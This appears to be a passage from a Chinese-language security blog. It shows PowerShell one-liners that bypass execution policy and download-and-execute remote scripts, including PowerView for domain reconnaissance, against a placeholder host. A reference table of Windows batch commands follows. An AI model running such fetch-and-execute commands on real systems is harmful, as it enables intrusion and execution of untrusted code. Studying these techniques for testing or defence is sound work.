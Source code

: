 
### ![](https://img-blog.csdnimg.cn/20191118174035554.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 远程下载并执行PowerShell脚本



远程下载并执行test.ps1脚本、远程下载PowerView.ps1脚本，并执行其中的Get-Netdomain模块



```
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/test.ps1')      
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/powerview.ps1');import-module .\powerview.ps1;Get-NetDomain
```




 ![](https://img-blog.csdnimg.cn/20191118175538277.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



Windows中的批处理文件

--------------



```
@echo off            表示在此语句后所有运行的命令都不显示命令行本身      
echo                 显示这行后面的文字      
title                标题       
rem                  注释命令      
cls                  清楚窗口      
set /a               赋值      
set /p  name=        接受用户输入,保存在name中      
%name%               输出用户的输入      
if   else            判断      1
FOR /F %%i in (ip.txt) do echo %%i       #循环打印出ip.txt内的数据，同一个窗口      1
FOR /F %%i in (ip.txt) do start echo %%i       #循环打印出ip.txt内的数据，不同窗口      1
GEQ                  大于等于      1
LSS                  小于      1
goto   :1 :2         跳转到      1
exit                 退出程序      1
start                启动文件      1
call                 调用另一个批处理文件      1
dir c:\*.*>a.txt     将C盘文件列表写入a.txt      1
del                  删除一个或多个文件
```


